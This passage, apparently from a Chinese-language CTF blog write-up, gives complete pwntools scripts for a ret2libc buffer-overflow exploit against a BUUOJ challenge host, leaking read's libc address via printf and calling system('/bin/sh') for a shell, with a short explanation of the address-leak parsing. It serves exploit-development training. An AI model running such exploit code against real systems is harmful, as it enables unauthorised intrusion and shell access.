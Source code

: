 ```
fmt = 0x0400770
pop_rsi_r15_ret = 0x0400731
payload1 = b'a' * offset + p64(pop_rdi_ret) + p64(fmt) + p64(pop_rsi_r15_ret) + p64(read_got_addr) + p64(0) + p64(printf_plt_addr) + p64(main_addr)
p.sendline(payload1)
read_true_addr=u64(p.recvuntil('\x7f')[-6:].ljust(8,'\x00'))
libc_base_addr = read_true_addr - libc.symbols['read']
system_true_addr = libc_base_addr + libc.symbols['system']
bin_sh_addr = libc_base_addr + libc.search('/bin/sh').next()
p.recvuntil('name? ')
payload2 = b'a' * offset + p64(pop_rdi_ret) + p64(bin_sh_addr) + p64(system_true_addr)
p.sendline(payload2)
p.interactive()
```

值得注意的还有接收真实地址时的写法

```
read_true_addr=u64(p.recvuntil('\x7f')[-6:].ljust(8,'\x00'))
```

为什么在读到 \x7f 之后截止，再获取前面的6字节呢？

![image-20210327014136636](https://cdn.jsdelivr.net/gh/p0lar1star/blog-img/202204041737160.png)

原因是在64位计算机中，一个地址的长度是8字节，但是实际的操作系统中，一个地址的最高位的两个字节是00，而且实际的函数地址是0x7fxxxx开头的，因此为了避免获取错误的地址值，只需要获取低6字节值，然后通过ljust函数把最高位的两字节填充成00。

我们还可以用这种一般的写法u64(p.recv(6).ljust(8, "\x00"))

```
from pwn import *
context(arch = 'amd64', os = 'linux', log_level = 'debug')
#p = process('./pwn')
p = remote('node3.buuoj.cn', 28762)
e = ELF('./pwn')
libc = ELF('libc.so.6')
#libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
offset = 40
p.recvuntil('name? ')
printf_plt_addr = e.plt['printf']
read_got_addr = e.got['read']
main_addr = 0x400636
pop_rdi_ret = 0x0400733
fmt = 0x0400770
pop_rsi_r15_ret = 0x0400731
payload1 = b'a' * offset + p64(pop_rdi_ret) + p64(fmt) + p64(pop_rsi_r15_ret) + p64(read_got_addr) + p64(0) + p64(printf_plt_addr) + p64(main_addr)
p.sendline(payload1)
p.recvuntil('Welcome to the Pwn World again, ')
p.recvuntil('Welcome to the Pwn World again, ')
read_true_addr = u64(p.recv(6).ljust(8, "\x00"))
print(hex(read_true_addr))
libc_base_addr = read_true_addr - libc.symbols['read']
system_true_addr = libc_base_addr + libc.symbols['system']
bin_sh_addr = libc_base_addr + libc.search('/bin/sh').next()
p.recvuntil('name? ')
payload2 = b'a' * offset + p64(pop_rdi_ret) + p64(bin_sh_addr) + p64(system_true_addr)
p.sendline(payload2)
p.interactive()
```
